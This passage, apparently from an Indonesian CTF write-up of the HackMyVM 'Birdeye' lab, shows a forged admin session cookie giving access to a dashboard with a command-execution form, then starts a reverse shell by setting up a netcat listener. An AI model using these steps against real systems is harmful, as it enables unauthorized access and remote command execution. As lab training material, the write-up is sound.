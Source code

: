 > **Catatan Penting:** Parameter `&method=POST` sangat krusial. Tanpa ini, endpoint akan menggunakan GET sebagai default method.

**Response:**

```http
HTTP/1.1 200 OK
Set-Cookie: session=eyJhZG1pbl9hdXRoZW50aWNhdGVkIjp0cnVlfQ.aQUYRg._-DZobnqTyLDRYB2cKMu8aYam7o; Domain=192.168.1.237; Path=/

<h2>Admin Dashboard</h2>
<form method="post">
    <label>Command: <input name="command" type="text"></label>
    <button type="submit">Run</button>
</form>
```

**Sukses!** Kita mendapatkan session cookie dan akses ke admin dashboard yang memiliki fitur eksekusi command.

### Accessing Dashboard with Cookie

Menggunakan Cookie Editor di browser, saya menambahkan session cookie yang didapat dan mengakses `/admin/dashboard` secara langsung. Dashboard admin berhasil diakses!

![Admin Dashboard Access](/assets/img/post/HackMyVm-Birdeye/foto5.png)

---

## Initial Access - Reverse Shell

### Gaining Shell Access

Dashboard admin memiliki form untuk menjalankan command. Kita dapat menggunakannya untuk mendapatkan reverse shell.

**Setup Listener:**

```bash
nc -lvnp 9001
```
